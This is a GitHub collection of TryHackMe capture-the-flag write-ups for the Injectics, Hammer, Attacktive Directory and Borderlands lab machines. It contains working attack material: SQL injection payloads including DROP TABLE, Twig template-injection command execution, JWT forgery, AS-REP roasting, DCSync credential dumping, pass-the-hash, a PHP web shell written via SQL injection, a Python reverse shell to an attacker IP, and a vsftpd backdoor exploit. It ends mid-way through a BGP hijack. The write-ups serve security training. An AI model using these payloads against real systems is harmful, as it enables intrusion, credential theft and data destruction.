

# THM Write-UPs
## [Windcorp](https://github.com/zinzloun/THM_WriteUP/tree/main/windcorp)
## [Offensive Pentesting path](https://github.com/zinzloun/THM_WriteUP/tree/main/PT_Path_notes)
## [RedTeam Capstone Challange](https://github.com/zinzloun/THM_WriteUP/tree/main/RTM_Capstone)
## [HOLO](https://github.com/zinzloun/THM_WriteUP/tree/main/holo)
## [Borderlands](https://github.com/zinzloun/THM_WriteUP?tab=readme-ov-file#borderlands-1)
## [El Bandito](https://github.com/zinzloun/THM_WriteUP?tab=readme-ov-file#el-bandito-1)
## [Reset](https://github.com/zinzloun/THM_WriteUP?tab=readme-ov-file#reset-1)
## [NoSQL injection](https://github.com/zinzloun/THM_WriteUP/tree/main/nosqlinj)
## [Attacktive Directory](#attacktive-directory-1)
## [Hammer](https://github.com/zinzloun/THM_WriteUP/blob/main/README.md#hammer-1)
## [Injectics](#injectis-1)


## Injectics

### 🔍 Service Enumeration

#### Fast Port Scan
```bash
rustscan -b 1000 -a 10.10.149.162
```

#### Service Fingerprinting
```bash
nmap -sVC 10.10.149.162 -p 22,80
```

### 🌐 Web Application Recon

Check the HTML source for useful information. A mail suggests that some sensitive logic or files may be exposed in the web root.

#### Directory/File Discovery
```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.149.162/FUZZ.php -mc 200 -c
```

Discovered two login forms. We attempted SQL injection.

---

### 🩻 SQL Injection

#### Exploit with `sqlmap`
```bash
sqlmap -r login.req --batch --risk=3 --level=5 --dbms=mysql
```

`sqlmap` returned:
```
POST parameter 'username' is vulnerable.

Type: time-based blind  
Title: MySQL >= 5.0.12 RLIKE time-based blind  
Payload: username=aaa' RLIKE SLEEP(5)-- &password=aaaa&function=login
```

#### Manual Verification with Burp

```http
POST /functions.php HTTP/1.1
Host: 10.10.149.162
Cookie: PHPSESSID=2fkl1is7mrf3utmuodijmgh9bm
Content-Type: application/x-www-form-urlencoded

username=' RLIKE SLEEP(5)-- &password=aaaa&function=login
```

Response:
```json
{"status":"success","message":"Login successful","is_admin":"true",...}
```

✅ Although it's a blind SQLi, it still allows login—possibly due to poor failover logic on the server.

---

### 🧑‍💻 Dashboard Access

Log in as the user `dev` using the session cookie (e.g., `PHPSESSID=2fkl1is7mrf3utmuodijmgh9bm`).

#### Exploiting Update Logic

Tested SQL injection in the `bronze` field by setting:
```
bronze = 1 --
```

🛑 **Warning**: This is **very invasive**: it updates all records in the table. Avoid in real engagements.

---

#### Dropping the table (Admin Access)

From the email found, we know that admin access is granted after deleting a specific table.

Payload:
```
bronze = 10;DROP TABLE xxxxx --
```

The semicolon chains a second query, and the comment skips the original `WHERE` clause.

If successful, a warning message appears:
> "Seems like database or some important table is deleted. InjecticsService is running to restore it. Please wait for 1-2 minutes."

Then, log in from the **admin login page** using credentials from the email log.

---

### 🏴 Getting the Second Flag

### Out-of-Band Exploitation Attempts

Tried:
```sql
;SELECT '' INTO OUTFILE '/var/www/html/test.txt' --
```

But writing to files was **not allowed**.

Also attempted to upload a shell, but failed due to **lack of write permissions** to the webroot.

Tried:
```bash
sqlmap -u "http://10.10.239.164/edit_leaderboard.php" \
--data="rank=1&country=&gold=22&silver=21&bronze=150" \
--cookie="PHPSESSID=9odjnokt0bvou7p21uothquevs" \
-p bronze --dbms=MySQL --level=5 --risk=3 --technique=B --os-shell
```

---

### 🔐 Profile Update Function

Discovered a new "Update Profile" function. The first name is echoed on the dashboard, so I tested for XSS and SQLi.

✅ **Stored XSS** is present, but **not useful** for this context.

---

### 🧭 Enumeration Pays Off

After being stuck, I returned to the basics: **enumerate, enumerate, enumerate...**

### Deeper File Enumeration
```bash
ffuf -u http://10.10.239.164/FUZZ \
-w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt \
-e .txt,.config,.json,.xml,.env,.ini,.bak,.old,.log,.sql \
-t 50 -c --fw 0 -mc 200
```

Discovered an interesting `.json` file indicating the use of **Twig 2.14.0**.

---

## 🧬 SSTI Exploitation

Since the box is about injections, I assumed SSTI was present.

Basic payloads:
```twig
{{ 2*5 }}              → 10  
{{ 'test' ~ '123' }}   → test123
```

So SSTI was confirmed.

However, command execution was tricky. After spending ~2 hours stuck, I checked [this write-up](https://www.aviskase.com/articles/2025/02/13/writeup-tryhackme-injectics)

Discovered that **PHP's `passthru()`** is used in a custom Twig filter.

---

### What is `passthru()`?

> `passthru()` is a PHP function used to execute a system command (shell command) and send the raw output directly to standard output (typically the terminal or web page).

---

### Confirmation payload
```twig
fname={{ ['id','']|sort('passthru') }}
```

Returned:
```
Welcome, uid=33(www-data) gid=33(www-data) groups=33(www-data) Array!
```

Then it was just a matter to sort out how to execute the following commands through SSTI:
```bash
ls flags
cat flags/hidden_file.txt
```


## Hammer
## Flag 1
- Rustscan to find services
- nmap -sVC to fingerprint found services
- Fuzz the website, find a valid email address to recover the password
#### Recovery password logic
- Upon providing a valid email address, you have to insert a 4 digit token
- You have 180 seconds to perfom the action
- You have something like 7 attempts before your session is reset, but <b>tokens are not invalidated</b>
#### Logic attack
- We have 180 seconds to try to brute force the token: use multi-threads
- The server associates session's requests to your IP, after 7 wrong attempts we are redirected to the login page: use  x_forwarded_for header pretending each requests comes from a different IP
- Once the token is found just use the PHPSessionID associated to update your cookie's value and you can procedd to update your password.
- Found [here](./hammer/hmr_brute_token.py) a Python script to assist in the exploitation

## Flag 2
- Once logged in we can execute only ls command
- Session expires very fast on the dashboard, but the execute_command.php remains accessible
- Send this page to Burp Repeater. A JWT token is trasmitted to the server
- Issuing ls command we can notice the presence of a key file: 188ade1.key
### Analyzing the token
- Decoding the token we can notice that there is a kid claim that point to a file, that actually is very bad (ask to ChatGPT).
- There is an interesting role in the data structure that can suggest a possible privilege escalation path

## Logic attack
- Downlad the key file: http://<hammer_IP>:1337/188ade1.key
- Open the file with Sublime if you use the attack box
- We can guess that the key file is used to sign the JWT, so we change the kid value to point to the key we were able to download:

  	   "kid": "/var/www/html/188ade1.key"
- then change the role value to admin

  	  "role": "admin"
- use the key's value to sign the JWT
- Use the obtained value to replace the bearer header and the token cookie values with the newly generated JWT in Burp Repeater
- Submit POST /execute_command.php again and you should able to execute commands as admin now 

## Attacktive Directory
### Enumerate AD

    enum4linux-ng 10.10.215.146                                            
	...
	
	 ==========================================
	|    SMB Dialect Check on 10.10.215.146    |
	 ==========================================
	[*] Trying on 445/tcp
	[+] Supported dialects and settings:
	Supported dialects:
	  SMB 1.0: false
	  SMB 2.02: true
	  SMB 2.1: true
	  SMB 3.0: true
	  SMB 3.1.1: true
	Preferred dialect: SMB 3.0
	SMB1 only: false
	SMB signing required: true
	...
	 ============================================================
	|    Domain Information via SMB session for 10.10.215.146    |
	 ============================================================
	[*] Enumerating via unauthenticated SMB session on 445/tcp
	[+] Found domain information via SMB
	NetBIOS computer name: ATTACKTIVEDIREC                                                                                                                                                                                                      
	NetBIOS domain name: THM-AD                                                                                                                                                                                                                 
	DNS domain: spookysec.local                                                                                                                                                                                                                 
	FQDN: AttacktiveDirectory.spookysec.local                                                                                                                                                                                                   
	Derived membership: domain member                                                                                                                                                                                                           
	Derived domain: THM-AD                    
	...
 ### Enumerating Users via Kerberos

	./kerbrute userenum --dc 10.10.215.146 -d spookysec.local spookysec_users_enum
	
	2024/09/05 16:37:02 >  [+] VALID USERNAME:       svc-admin@spookysec.local
	2024/09/05 16:37:04 >  [+] VALID USERNAME:       james@spookysec.local
	2024/09/05 16:37:06 >  [+] VALID USERNAME:       robin@spookysec.local
	2024/09/05 16:37:10 >  [+] VALID USERNAME:       James@spookysec.local
	2024/09/05 16:37:29 >  [+] VALID USERNAME:       darkstar@spookysec.local
	2024/09/05 16:37:41 >  [+] VALID USERNAME:       administrator@spookysec.local
	2024/09/05 16:38:02 >  [+] VALID USERNAME:       backup@spookysec.local
	2024/09/05 16:38:10 >  [+] VALID USERNAME:       paradox@spookysec.local
	2024/09/05 16:39:15 >  [+] VALID USERNAME:       JAMES@spookysec.local
	2024/09/05 16:39:47 >  [+] VALID USERNAME:       Robin@spookysec.local
	2024/09/05 16:42:02 >  [+] VALID USERNAME:       Administrator@spookysec.local
	...

### Abusing Kerberos
I derived the following user's list from the previous command:
    
	cat ASREPRoast 
 
	james@spookysec.local
	robin@spookysec.local
	James@spookysec.local
	darkstar@spookysec.local
	administrator@spookysec.local
	backup@spookysec.local
	paradox@spookysec.local
	JAMES@spookysec.local
	Robin@spookysec.local
	Administrator@spookysec.local
	svc-admin@spookysec.local

### ASREProast
We can try to retrieve domain users who have "Do not require Kerberos preauthentication" set and ask for their TGTs without knowing their passwords. 
It is then possible to attempt to crack the session key sent along the ticket to retrieve the user password


	impacket-GetNPUsers -no-pass -usersfile ASREPRoast spookysec.local/ -dc-ip 10.10.215.146 

	Impacket v0.12.0.dev1 - Copyright 2023 Fortra

	[-] User james@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
	[-] User robin@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
	[-] User James@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
	[-] User darkstar@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
	[-] User administrator@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
	[-] User backup@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
	[-] User paradox@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
	[-] User JAMES@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
	[-] User Robin@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
	[-] User Administrator@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
	$krb5asrep$23$svc-admin@spookysec.local@SPOOKYSEC.LOCAL:68647bd6f671....91ec9762

Since we got a valid TGT we can try to get the password:
	
	hashcat svc-admin.hash pwd_list_01
	...
	Session..........: hashcat
	Status...........: Cracked
	Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
	Hash.Target......: $krb5asrep$23$svc-admin@spookysec.local@SPOOKYSEC.L...ec9762
	...
	
Having compromise this user we can come back to enumerate the DC:

    enum4linux-ng -S -u svc-admin -p xxxxxxxxxxxxxx 10.10.215.146
	...
	
	 =======================================
	|    Shares via RPC on 10.10.215.146    |
	 =======================================
	[*] Enumerating shares
	[+] Found 6 share(s):
	ADMIN$:                                                                                                                                                                                                                            
	  comment: Remote Admin                                                                                                                                                                                                                     
	  type: Disk                                                                                                                                                                                                                                
	C$:                                                                                                                                                                                                                                         
	  comment: Default share                                                                                                                                                                                                                    
	  type: Disk                                                                                                                                                                                                                                
	IPC$:                                                                                                                                                                                                                                       
	  comment: Remote IPC                                                                                                                                                                                                                       
	  type: IPC                                                                                                                                                                                                                                 
	NETLOGON:                                                                                                                                                                                                                                   
	  comment: Logon server share                                                                                                                                                                                                               
	  type: Disk                                                                                                                                                                                                                                
	SYSVOL:                                                                                                                                                                                                                                     
	  comment: Logon server share                                                                                                                                                                                                               
	  type: Disk                                                                                                                                                                                                                                
	backup:                                                                                                                                                                                                                                     
	  comment: ''                                                                                                                                                                                                                               
	  type: Disk                                                                                                                                                                                                                                
	[*] Testing share ADMIN$
	[+] Mapping: DENIED, Listing: N/A
	[*] Testing share C$
	[+] Mapping: DENIED, Listing: N/A
	[*] Testing share IPC$
	[+] Mapping: OK, Listing: NOT SUPPORTED
	[*] Testing share NETLOGON
	[+] Mapping: OK, Listing: OK
	[*] Testing share SYSVOL
	[+] Mapping: OK, Listing: OK
	[*] Testing share backup
	[+] Mapping: OK, Listing: OK

Since we have read privilege to the backup foldere, let's see if there's any interesting content:

    smbclient \\\\10.10.215.146\\backup -U spookysec.local/svc-admin
	Password for [SPOOKYSEC.LOCAL\svc-admin]:
	Try "help" to get a list of possible commands.
	smb: \> ls
	  .                                   D        0  Sat Apr  4 21:08:39 2020
	  ..                                  D        0  Sat Apr  4 21:08:39 2020
	  backup_credentials.txt              A       48  Sat Apr  4 21:08:53 2020

					8247551 blocks of size 4096. 3613829 blocks available
	smb: \> get backup_credentials.txt 
	getting file \backup_credentials.txt of size 48 as backup_credentials.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
	smb: \> quit

The file is B64 encodeded:

    base64 -d backup_credentials.txt

We got backup user credentials.

### Enumerate AD with Bloodhound
I was able to collect information remotely using the following:

    bloodhound-python -d spookysec.local -v --zip -c All -ns 10.10.207.69 -u backup@spookysec.local -p xxxxxxxxxxxxxx
	...
	INFO: Compressing output into 20240906111930_bloodhound.zip

Loading the file in Bloodhound (drag & drop on the central panel) and we can get useful information about the domain objects and configuration. I found that 
backup user has GenericAll privileges to DC ATTACKTIVEDIRECTORY.SPOOKYSEC.LOCAL, could be a path of exploitation: https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution, but it seems quite complicated to me, so I decided to move forward. 

Bloodhound revealed that backup user is allowed to RDP to the DC, then I proceeded in this way.

### Investigate backup user

The user does not seems to have particular privileges on the machine, is only a Domain Users member.
We can open AD users & computers snap-in to perform futher inspections. I suggest to enable Advantage features in the View menu.
Here we can see that the user has the followin privileges on the domain:



### DcSync attack
These privileges allows us to perform a DCSync attack. More information here: https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync
	
	impacket-secretsdump spookysec.local/backup:xxxxxxxxxxxxxx@10.10.60.250 -just-dc-ntlm
	...
	[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
	[*] Using the DRSUAPI method to get NTDS.DIT secrets
	Administrator:500:aad3b435b51404eeaad3b435b51404ee:xxxxxxxxxxxxxxxxxxxxxxxxxx:::
	Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	...
I tried to reverse the NTLM hash but with no luck:
	
	hashcat admin.spooky /usr/share/wordlists/rockyou.txt
	...
	Session..........: hashcat                                
	Status...........: Exhausted
	Hash.Mode........: 1000 (NTLM)
	Hash.Target......: xxxxxxxxxxxxxxxxxxxxxxxxxx
	....

Then I tried to use xfreerdp with PTH but <b>Restricted Admin Mode</b> prevented me from signing in, with NTLM hash.
Using crackmapexec we can eventually try to disable the restriction, changing the related register value:
	
	crackmapexec smb 10.10.60.250 -u "spookysec.local/administrator" -H "xxxxxxxxxxxxxxxxxxxxxxxxxx" -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'

	SMB         10.10.60.250    445    ATTACKTIVEDIREC  [*] Windows 10 / Server 2019 Build 17763 x64 (name:ATTACKTIVEDIREC) (domain:spookysec.local) (signing:True) (SMBv1:False)
	SMB         10.10.60.250    445    ATTACKTIVEDIREC  [+] spookysec.local\administrator:xxxxxxxxxxxxxxxxxxxxxxxxxx (Pwn3d!)
	SMB         10.10.60.250    445    ATTACKTIVEDIREC  [+] Executed command 
	SMB         10.10.60.250    445    ATTACKTIVEDIREC  The operation completed successfully.

Finally we can login with RDP
	
	xfreerdp /u:administrator /d:spookysec.local /pth:xxxxxxxxxxxxxxxxxxxxxxxxxx /v:10.10.60.250


## Borderlands

### Compromise the server
Scan the box

    rustscan -b 900 -a 10.10.64.117
    Open 10.10.64.117:22
    Open 10.10.64.117:80

Fingerprint the service:

    nmap -sVC -A -p 22,80 10.10.64.117
    PORT   STATE SERVICE VERSION
    ...
    80/tcp open  http    nginx 1.14.0 (Ubuntu)
    |_http-title: Context Information Security - HackBack 2
    |_http-server-header: nginx/1.14.0 (Ubuntu)
    | http-cookie-flags: 
    |   /: 
    |     PHPSESSID: 
    |_      httponly flag not set
    | http-git: 
    |   10.10.64.117:80/.git/
    |     Git repository found!
    |     .git/config matched patterns 'user'
    |     Repository description: Unnamed repository; edit this file 'description' to name the...
    |_    Last commit message: added mobile apk for beta testing. 
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Interesting enough we found a git repo. Visiting the URL http://10.10.64.117/.git/config ve can download the config file. I didn't know too much about this stuff so I take some time to investigate the matter.
I found an interesting tool: https://github.com/WangYihang/GitHacker. We can try to download the git folder:

    githacker --url http://10.10.224.181/.git/ --output-folder result
    2024-05-18 15:17:02 INFO 1 urls to be exploited
    2024-05-18 15:17:02 INFO Exploiting http://10.10.224.181/.git/ into result/7531e0db49d3cece4d49dcd8e8b683b9
    2024-05-18 15:17:03 INFO Downloading basic files...
    2024-05-18 15:17:03 INFO [73 bytes] 200 .git/description
    ...
    2024-05-18 15:17:10 INFO Cloning downloaded repo from /tmp/tmpzg2znu_8 to result/7531e0db49d3cece4d49dcd8e8b683b9
    2024-05-18 15:17:10 ERROR Cloning into 'result/7531e0db49d3cece4d49dcd8e8b683b9'...
    done.                                                                                                                                                                                  
    2024-05-18 15:17:10 INFO Check it out: result/7531e0db49d3cece4d49dcd8e8b683b9
    2024-05-18 15:17:10 INFO 1 / 1 were exploited successfully
    2024-05-18 15:17:10 INFO http://10.10.224.181/.git/ -> result/7531e0db49d3cece4d49dcd8e8b683b9

Then we can inspect commits to the repo:

    [/opt/result/7531e0db49d3cece4d49dcd8e8b683b9]
    └─# ll
    total 4344
    -rw-r--r-- 1 root root     880 May 18 15:17 api.php
    -rw-r--r-- 1 root root  821311 May 18 15:17 Context_Red_Teaming_Guide.pdf
    -rw-r--r-- 1 root root   57770 May 18 15:17 Context_White_Paper_Pen_Test_101.pdf
    -rw-r--r-- 1 root root  533824 May 18 15:17 CTX_WSUSpect_White_Paper.pdf
    -rw-r--r-- 1 root root 1963179 May 18 15:17 Demystifying_the_Exploit_Kit_-_Context_White_Paper.pdf
    -rw-r--r-- 1 root root    3040 May 18 15:17 functions.php
    -rw-r--r-- 1 root root 1024712 May 18 15:17 Glibc_Adventures-The_Forgotten_Chunks.pdf
    -rw-r--r-- 1 root root    1508 May 18 15:17 home.php
    -rw-r--r-- 1 root root   14534 May 18 15:17 index.php
    -rw-r--r-- 1 root root      21 May 18 15:17 info.php

Inspecting the document we can find that:
1. The Web API key is present in home.php
2. The function GetDocumentDetails (see function.php) is vulnerable to SQLi
3. We can exploit it through the api.php, we need to pass in the QS an valid apykey parameter (we got the web api value) and documentid, that is the injectable parameter.

Verify the vulnerability:

    http://10.10.224.181/api.php?apikey=WEBLhvOJAH8d50Z4y5G5g4McG1GMGD&documentid=1
    Document ID: 1
    Document Name: Context_Red_Teaming_Guide.pdf
    Document Location: Context_Red_Teaming_Guide.pdf

Inspecting function.php, we know that the query expects only one row to be returned and that three fileds are selected:

    function GetDocumentDetails($conn, $documentid)
    {
        $sql = "select documentid, documentname, location from documents where documentid=".$documentid;
        //echo $sql;
        $result = mysqli_query($conn, $sql) or die(mysqli_error($conn));

        if (mysqli_num_rows($result) === 1) {
            return mysqli_fetch_assoc($result);
        } else {
            return null;
        }
    }

We can futher test SQLi using the following query. The application will sleep for 10 second before to respond:

    http://10.10.114.213/api.php?apikey=WEBLhvOJAH8d50Z4y5G5g4McG1GMGD&documentid=1%20union%20select%201,2,sleep(10)

Reading the questions we know that there is /var/www directory on the server, so we can suppose that the web root is /var/www/html. We can try to create a web shell exploiting the SQLi vulnerability. The query is the follows:

       http://10.10.114.213/api.php?apikey=WEBLhvOJAH8d50Z4y5G5g4McG1GMGD&documentid=1%20union%20select%20%27%27,%27%27,%27%3Cp%3E%3C?php%20system($_GET[%27%27c%27%27]);%20?%3E%3C/p%3E%27%20into%20outfile%20%27/var/www/html/help.php%27

Now we should have a web shell responding at the following URL:

    http://10.10.114.213/help.php?c=id
    
    1 Context_Red_Teaming_Guide.pdf Context_Red_Teaming_Guide.pdf
    uid=33(www-data) gid=33(www-data) groups=33(www-data) 
    
I issued some commands to discover a bit more about the server:

    http://10.10.246.133/help.php?c=cat%20/etc/*rel*
    DISTRIB_ID=Ubuntu DISTRIB_RELEASE=18.04 DISTRIB_CODENAME=bionic...
    
    http://10.10.246.133/help.php?c=uname%20-a
    Linux app.ctx.ctf 4.4.0-1095-aws #106-Ubuntu SMP Wed Sep 18 13:33:48 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux 

I checked for some programs:

    http://10.10.246.133/help.php?c=apt-cache%20policy%20curl
    curl: Installed: (none)...

Same reply for wget, netcat. I found that python3 is installed indeed.

    http://10.10.246.133/help.php?c=apt-cache%20policy%20python3
    python3: Installed: 3.6.7-1~18.04 Candidate: 3.6.7-1~18.04 Version table

We can try to get a reverse shell using python3, set the following payload as c parameter in query string:

    python -c 'import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.2.142",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'

The IP address is the THM VPN tun0 interface. We should get a reverse shell

    nc -lvp 1234                      
    listening on [any] 1234 ...
    10.10.246.133: inverse host lookup failed: Unknown host
    connect to [10.9.2.142] from (UNKNOWN) [10.10.246.133] 33036
    www-data@app:~/html$

Inspecting the network configuration we discover that we can reach other two network:

    ip a
    1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
        link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
        inet 127.0.0.1/8 scope host lo
           valid_lft forever preferred_lft forever
    14: eth0@if15: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
        link/ether 02:42:ac:12:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
        inet 172.18.0.2/16 brd 172.18.255.255 scope global eth0
           valid_lft forever preferred_lft forever
    19: eth1@if8: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UNKNOWN group default 
        link/ether 02:42:ac:10:01:0a brd ff:ff:ff:ff:ff:ff link-netnsid 0
        inet 172.16.1.10/24 brd 172.16.1.255 scope global eth1
           valid_lft forever preferred_lft forever
    www-data@app:~/html$ ip route
    default via 172.18.0.1 dev eth0 
    172.16.1.0/24 dev eth1 proto kernel scope link src 172.16.1.10 
    172.18.0.0/16 dev eth0 proto kernel scope link src 172.18.0.2 

### Pivoting
We are going to use ligolo-ng to pivoting fromn the compromise host.
Since python is installed we can also use it to download files on the compromise host:

    python3
    Python 3.6.8 (default, Aug 20 2019, 17:12:48) 
    [GCC 8.3.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>> import urllib.request
    >>> urllib.request.urlretrieve("http://10.9.2.142:8000/agent", "/tmp/agent")
        ('/tmp/agent', <http.client.HTTPMessage object at 0x7f810bf47860>)

Then on the attacker machine we set up ligolo as follows:

    ip tuntap add user root  mode tun ligolo && ip link set ligolo up
    ./proxy --selfcert
    ...
    INFO[0000] Listening on 0.0.0.0:11601                   
    ligolo-ng »  

On the victim machine start the agent:

    www-data@app:/tmp$ chmod u+x agent
    www-data@app:/tmp$ ./agent -connect 10.9.2.142:11601 -ignore-cert
    WARN[0000] warning, certificate validation disabled     
    INFO[0000] Connection established                        addr="10.9.2.142:11601"

Once we get a connection on the attacker machine we can add the route for the new discovered network. I started with the eth1:

    ip route add 172.16.1.0/24 dev ligolo

Then start the tunnel on the victim machine from ligolo console:

        [Agent : www-data@app.ctx.ctf] » start 

Then from the attacker machine I performed a fast host discover:

    nmap --min-parallelism 50  172.16.1.0/24 -n 
    ...
    Nmap scan report for 172.16.1.10
    Host is up (0.16s latency).
    Not shown: 999 closed tcp ports (conn-refused)
    PORT   STATE SERVICE
    80/tcp open  http
    
    Nmap scan report for 172.16.1.128
    Host is up (0.17s latency).
    Not shown: 996 closed tcp ports (conn-refused)
    PORT     STATE SERVICE
    21/tcp   open  ftp
    179/tcp  open  bgp
    2601/tcp open  zebra
    2605/tcp open  bgpd

Then I proceed to fingerprint the services:

    nmap -sVC -Pn -p 21,179,2601,2605 172.16.1.128 
    ...
    PORT     STATE SERVICE    VERSION
    21/tcp   open  ftp        vsftpd 2.3.4
    |_ftp-anon: got code 500 "OOPS: cannot change directory:/var/lib/ftp".
    179/tcp  open  tcpwrapped
    2601/tcp open  quagga     Quagga routing software 1.2.4 (Derivative of GNU Zebra)
    2605/tcp open  quagga     Quagga routing software 1.2.4 (Derivative of GNU Zebra)
    Service Info: OS: Unix

### Root the router :)
We have the (in)famous vsftpd sever 2.3.4, let's confirm the exploit:

    searchsploit "vsftpd 2.3.4"                                
    ----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
     Exploit Title                                                                                                                                       |  Path
    ----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
    vsftpd 2.3.4 - Backdoor Command Execution                                                                                                            | unix/remote/49757.py
    
Then just execute the exploit to get a telnet session:

    python 49757.py 172.16.1.128 
    /home/zinz/Downloads/49757.py:11: DeprecationWarning: 'telnetlib' is deprecated and slated for removal in Python 3.13
      from telnetlib import Telnet
    Success, shell opened
    Send `exit` to quit shell
    
    id
    uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)

We can chech the network configuration:

    ip a
    1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
        link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
        inet 127.0.0.1/8 scope host lo
           valid_lft forever preferred_lft forever
    16: eth0@if7: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UNKNOWN group default 
        link/ether 02:42:ac:10:0c:65 brd ff:ff:ff:ff:ff:ff link-netnsid 0
        inet 172.16.12.101/24 brd 172.16.12.255 scope global eth0
           valid_lft forever preferred_lft forever
    19: eth1@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UNKNOWN group default 
        link/ether 02:42:ac:10:01:80 brd ff:ff:ff:ff:ff:ff link-netnsid 0
        inet 172.16.1.128/24 brd 172.16.1.255 scope global eth1
           valid_lft forever preferred_lft forever
    23: eth2@if10: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UNKNOWN group default 
        link/ether 02:42:ac:10:1f:65 brd ff:ff:ff:ff:ff:ff link-netnsid 0
        inet 172.16.31.101/24 brd 172.16.31.255 scope global eth2
           valid_lft forever preferred_lft forever
    
    route -n
    Kernel IP routing table
    Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
    0.0.0.0         172.16.12.1     0.0.0.0         UG    0      0        0 eth0
    172.16.1.0      0.0.0.0         255.255.255.0   U     0      0        0 eth1
    172.16.2.0      172.16.12.102   255.255.255.0   UG    20     0        0 eth0
    172.16.3.0      172.16.31.103   255.255.255.0   UG    20     0        0 eth2
    172.16.12.0     0.0.0.0         255.255.255.0   U     0      0        0 eth0
    172.16.31.0     0.0.0.0         255.255.255.0   U     0      0        0 eth2

Ge the hostname:

    hostname
    router1.ctx.ctf


### Lost in BGP
And now? Frankly I have no idea how to proceed further. I know what is the BGP protocol and reading the question I figured out that maybe I have to perform a MITM attack, or I have to redirect the traffic to my machine in some way? But I have no idea how to do it. 
I tried to look for some write-up that eventually explained the exploit to a dummy, but I simply found nothing, just some commands issued without any decent explanation. 

Id' like to understand what I'm doing of course. In the end I hit this interesting article: https://medium.com/r3d-buck3t/bgp-hijacking-attack-7e6a30711246. There are few concepts to keep in mind:

- BGP is a routing protocol that connects larger groups of networks worldwide known as Autonomous Systems such as ISP providers, large tech enterprises, or government agencies.
- BGP provides directions to the traffic as efficiently as possible, by favoring the shortest paths and specific IP ranges
- Each Autonomous System advertises their list of IP addresses and the neighboring Autonomous Systems (routers) they can connect to — the neighboring routers known as Peers
- The list of the advertised IPs and Peers information is stored in the routing tables of the Autonomous Systems. These tables are regularly updated to include new networks, IP spaces, and the shortest paths

The most important fact, in the context of our excercise, is the fact that a mistake in configuring the routs, either intentionally or as a malicious act, can lead to poisoning the traffic and send the packets to the wrong destination, leading to hijack the system. BGP protocol does not implement any mechanism to discern modified or rogue information recived by other peers. So BGP hijacking is sending traffic to a different destination than the real intended one to intercept the packets. That comes exactly to what we want.

### Hijack the BGP communication
Coming back to the router we compromised, we can inspect the BGP configuration:

    cat /etc/quagga/bgpd.conf
    !
    hostname router1
    password a0ceca89b47161dd49e4f6b1073fc579
    log stdout
    !
    debug bgp updates
    !
    router bgp 60001
     bgp log-neighbor-changes
     bgp router-id 1.1.1.1
     network 172.16.1.0/24
     
     neighbor 172.16.12.102 remote-as 60002
     neighbor 172.16.12.102 weight 100
     neighbor 172.16.12.102 soft-reconfiguration inbound
     neighbor 172.16.12.102 prefix-list LocalNet in
     
     neighbor 172.16.31.103 remote-as 60003
     neighbor 172.16.31.103 weight 100
     neighbor 172.16.31.103 soft-reconfiguration inbound
     neighbor 172.16.31.103 prefix-list LocalNet in
       ...

From the configuration we can notice that:
- our compromised router is identified as <b>router bgp with AS 60001, attached to the eth2 </b>
- the AS neighbors are 60002 -> 172.16.12.102  and 60003 -> 172.16.31.103

We can further verify the configuration accessing Vtysh, the integrated shell of Quagga routing software.

    vtysh
    Hello, this is Quagga (version 1.2.4).
    Copyright 1996-2005 Kunihiro Ishiguro, et al.
    
